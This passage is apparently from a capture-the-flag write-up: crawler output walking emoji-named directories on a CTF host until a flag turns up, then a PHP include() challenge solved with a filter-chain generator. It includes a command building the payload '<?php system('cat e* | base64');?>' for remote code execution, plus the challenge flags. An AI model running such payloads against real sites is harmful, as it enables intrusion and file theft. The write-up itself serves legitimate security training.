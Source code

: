 ```
...
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😌/🥺😄/🤒🤯🤕/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😌/🥺😄/🤒🤯🤕/😏/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/😳🤕/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/😳🤕/👾/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/🥰🥶🤣😂/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/🥰🥶🤣😂/😅/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/🥰🥶🤣😂/😅😡/index.php
Visiting: https://byos.ctf.rawsec.com/root/🤤🤕😃/😔😁😕😵/😺😪🥴😇/🥰🥶🤣😂/🤧😅/index.php
Flag on: https://byos.ctf.rawsec.com/root/%F0%9F%A4%A4%F0%9F%A4%95%F0%9F%98%83/%F0%9F%98%94%F0%9F%98%81%F0%9F%98%95%F0%9F%98%B5/%F0%9F%98%BA%F0%9F%98%AA%F0%9F%A5%B4%F0%9F%98%87/%F0%9F%A5%B0%F0%9F%A5%B6%F0%9F%A4%A3%F0%9F%98%82/%F0%9F%A4%A7%F0%9F%98%85/index.php
```

![image](https://github.com/warlocksmurf/localctf-writeups/assets/121353711/efc696a8-7f06-4431-a017-e89fe3197486)

## simplelazy [Web]
Flag: `RWSC{S1MPL3_4ND_L4ZY}`

We are given a PHP website that loads files through a GET parameter. A vulnerablity in PHP exists where RCE can be achieved if the attacker controls a path to used in include() which is the method the website uses to include files.

![image](https://hackmd.io/_uploads/BkU7_LHpT.png)

![image](https://hackmd.io/_uploads/B1Xa_UrTp.png)

We can use a [PHP filter chain generator script](https://github.com/synacktiv/php_filter_chain_generator)

Command payload
```
python script.py --chain "<?php system('cat e* | base64');?>"
```